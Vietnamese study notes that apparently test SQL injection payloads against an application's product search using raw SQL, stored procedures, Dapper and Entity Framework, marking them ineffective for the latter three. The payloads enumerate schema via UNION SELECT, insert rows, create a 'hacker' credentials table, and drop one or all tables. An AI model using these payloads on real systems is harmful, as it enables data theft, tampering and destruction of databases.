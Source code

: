 # SQL Injection

## SQL raw

### Vi du 1: Check so luong cot

- Qua nhieu cot

``` sql
product 1' ORDER BY 60 --
```

- Dung so luong cot

``` sql
product 1' ORDER BY 21 --
```

### Vi du 2: Check table name hoac cai gi khac

``` sql
product 1445435' UNION ALL SELECT 1, TABLE_NAME, 3, '4', 5, 6, 7, '8', '9', 10, 11, 12, '13', '14', '15', '16', '17', '18', '19', '20', 21 FROM INFORMATION_SCHEMA.TABLES ORDER BY 2 OFFSET 5 ROWS FETCH NEXT 1 ROW ONLY --
```

### Vi du 3: Check column name and column type

``` sql
product 1445435' UNION ALL SELECT 1, CONCAT(COLUMN_NAME, ' - ', DATA_TYPE), 3, '4', 5, 6, 7, '8', '9', 10, 11, 12, '13', '14', '15', '16', '17', '18', '19', '20', 21 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'Functions' ORDER BY 2 OFFSET 5 ROWS FETCH NEXT 1 ROW ONLY --
```

### Vi du 4: Insert new data

``` sql
product 1445435'; INSERT dbo.Products (Name, CategoryId, Image, Price, PromotionPrice, OriginalPrice, Description, Content, HomeFlag, HotFlag, ViewCount, Tags, Unit, SeoPageTitle, SeoAlias, SeoKeywords, SeoDescription, DateCreated, DateModified, Status) VALUES('hack', 1, 'hack', 0, 0, 0, 'hack', 'hack', 0, 0, 0, 'hack', 'hack', 'hack', 'hack', 'hack', 'hack', 'hack', 'hack', 0) --
```

### Vi du 5: Them table va du lieu

``` sql
product 1';CREATE TABLE HackTable(Id INT PRIMARY KEY, UserName VARCHAR(MAX), UserPassword VARCHAR(MAX));INSERT INTO HackTable(Id, UserName, UserPassword)VALUES(1, 'hacker', 'hacker'); --
```

### Vi du 6: Drop table

```sql
product 1'; DROP TABLE HackTable; --
```

### Vi du 7: Drop all tables bang store procedure

``` sql
product 1'; EXEC sp_msforeachtable 'ALTER TABLE ? NOCHECK CONSTRAINT all'; EXEC sp_msforeachtable 'DROP TABLE ?' --
```

---

## Store procedure

### Vi du 1: Check so luong cot

- Khong co tac dung

``` sql
product 1' ORDER BY 60 --
```

``` sql
product 1' ORDER BY 21 --
```

### Vi du 2: Check table name hoac cai gi khac

- Khong co tac dung
  
``` sql
product 1445435' UNION ALL SELECT 1, TABLE_NAME, 3, '4', 5, 6, 7, '8', '9', 10, 11, 12, '13', '14', '15', '16', '17', '18', '19', '20', 21 FROM INFORMATION_SCHEMA.TABLES ORDER BY 2 OFFSET 5 ROWS FETCH NEXT 1 ROW ONLY --
```

### Vi du 3: Check column name and column type

- Khong co tac dung

``` sql
product 1445435' UNION ALL SELECT 1, CONCAT(COLUMN_NAME, ' - ', DATA_TYPE), 3, '4', 5, 6, 7, '8', '9', 10, 11, 12, '13', '14', '15', '16', '17', '18', '19', '20', 21 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'Functions' ORDER BY 2 OFFSET 5 ROWS FETCH NEXT 1 ROW ONLY --
```

### Vi du 4: Insert new data

- Khong co tac dung

``` sql
product 1445435'; INSERT dbo.Products (Name, CategoryId, Image, Price, PromotionPrice, OriginalPrice, Description, Content, HomeFlag, HotFlag, ViewCount, Tags, Unit, SeoPageTitle, SeoAlias, SeoKeywords, SeoDescription, DateCreated, DateModified, Status) VALUES('hack', 1, 'hack', 0, 0, 0, 'hack', 'hack', 0, 0, 0, 'hack', 'hack', 'hack', 'hack', 'hack', 'hack', 'hack', 'hack', 0) --
```

### Vi du 5: Them table va du lieu

- Khong co tac dung

``` sql
product 1';CREATE TABLE HackTable(Id INT PRIMARY KEY, UserName VARCHAR(MAX), UserPassword VARCHAR(MAX));INSERT INTO HackTable(Id, UserName, UserPassword)VALUES(1, 'hacker', 'hacker'); --
```

### Vi du 6: Drop table

- Khong co tac dung

```sql
product 1'; DROP TABLE HackTable; --
```

### Vi du 7: Drop all tables bang store procedure

- Khong co tac dung

``` sql
product 1'; EXEC sp_msforeachtable 'ALTER TABLE ? NOCHECK CONSTRAINT all'; EXEC sp_msforeachtable 'DROP TABLE ?' --
```

## Dapper

### Vi du 1: Check so luong cot

- Khong co tac dung

``` sql
product 1' ORDER BY 60 --
```

``` sql
product 1' ORDER BY 21 --
```

### Vi du 2: Check table name hoac cai gi khac

- Khong co tac dung
  
``` sql
product 1445435' UNION ALL SELECT 1, TABLE_NAME, 3, '4', 5, 6, 7, '8', '9', 10, 11, 12, '13', '14', '15', '16', '17', '18', '19', '20', 21 FROM INFORMATION_SCHEMA.TABLES ORDER BY 2 OFFSET 5 ROWS FETCH NEXT 1 ROW ONLY --
```

### Vi du 3: Check column name and column type

- Khong co tac dung

``` sql
product 1445435' UNION ALL SELECT 1, CONCAT(COLUMN_NAME, ' - ', DATA_TYPE), 3, '4', 5, 6, 7, '8', '9', 10, 11, 12, '13', '14', '15', '16', '17', '18', '19', '20', 21 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'Functions' ORDER BY 2 OFFSET 5 ROWS FETCH NEXT 1 ROW ONLY --
```

### Vi du 4: Insert new data

- Khong co tac dung

``` sql
product 1445435'; INSERT dbo.Products (Name, CategoryId, Image, Price, PromotionPrice, OriginalPrice, Description, Content, HomeFlag, HotFlag, ViewCount, Tags, Unit, SeoPageTitle, SeoAlias, SeoKeywords, SeoDescription, DateCreated, DateModified, Status) VALUES('hack', 1, 'hack', 0, 0, 0, 'hack', 'hack', 0, 0, 0, 'hack', 'hack', 'hack', 'hack', 'hack', 'hack', 'hack', 'hack', 0) --
```

### Vi du 5: Them table va du lieu

- Khong co tac dung

``` sql
product 1';CREATE TABLE HackTable(Id INT PRIMARY KEY, UserName VARCHAR(MAX), UserPassword VARCHAR(MAX));INSERT INTO HackTable(Id, UserName, UserPassword)VALUES(1, 'hacker', 'hacker'); --
```

### Vi du 6: Drop table

- Khong co tac dung

```sql
product 1'; DROP TABLE HackTable; --
```

### Vi du 7: Drop all tables bang store procedure

- Khong co tac dung

``` sql
product 1'; EXEC sp_msforeachtable 'ALTER TABLE ? NOCHECK CONSTRAINT all'; EXEC sp_msforeachtable 'DROP TABLE ?' --
```

---

## EF

### Vi du 1: Check so luong cot

- Khong co tac dung

``` sql
product 1' ORDER BY 60 --
```

``` sql
product 1' ORDER BY 21 --
```

### Vi du 2: Check table name hoac cai gi khac

- Khong co tac dung
  
``` sql
product 1445435' UNION ALL SELECT 1, TABLE_NAME, 3, '4', 5, 6, 7, '8', '9', 10, 11, 12, '13', '14', '15', '16', '17', '18', '19', '20', 21 FROM INFORMATION_SCHEMA.TABLES ORDER BY 2 OFFSET 5 ROWS FETCH NEXT 1 ROW ONLY --
```

### Vi du 3: Check column name and column type

- Khong co tac dung

``` sql
product 1445435' UNION ALL SELECT 1, CONCAT(COLUMN_NAME, ' - ', DATA_TYPE), 3, '4', 5, 6, 7, '8', '9', 10, 11, 12, '13', '14', '15', '16', '17', '18', '19', '20', 21 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'Functions' ORDER BY 2 OFFSET 5 ROWS FETCH NEXT 1 ROW ONLY --
```

### Vi du 4: Insert new data

- Khong co tac dung

``` sql
product 1445435'; INSERT dbo.Products (Name, CategoryId, Image, Price, PromotionPrice, OriginalPrice, Description, Content, HomeFlag, HotFlag, ViewCount, Tags, Unit, SeoPageTitle, SeoAlias, SeoKeywords, SeoDescription, DateCreated, DateModified, Status) VALUES('hack', 1, 'hack', 0, 0, 0, 'hack', 'hack', 0, 0, 0, 'hack', 'hack', 'hack', 'hack', 'hack', 'hack', 'hack', 'hack', 0) --
```

### Vi du 5: Them table va du lieu

- Khong co tac dung

``` sql
product 1';CREATE TABLE HackTable(Id INT PRIMARY KEY, UserName VARCHAR(MAX), UserPassword VARCHAR(MAX));INSERT INTO HackTable(Id, UserName, UserPassword)VALUES(1, 'hacker', 'hacker'); --
```

### Vi du 6: Drop table

- Khong co tac dung

```sql
product 1'; DROP TABLE HackTable; --
```

### Vi du 7: Drop all tables bang store procedure

- Khong co tac dung

``` sql
product 1'; EXEC sp_msforeachtable 'ALTER TABLE ? NOCHECK CONSTRAINT all'; EXEC sp_msforeachtable 'DROP TABLE ?' --
```
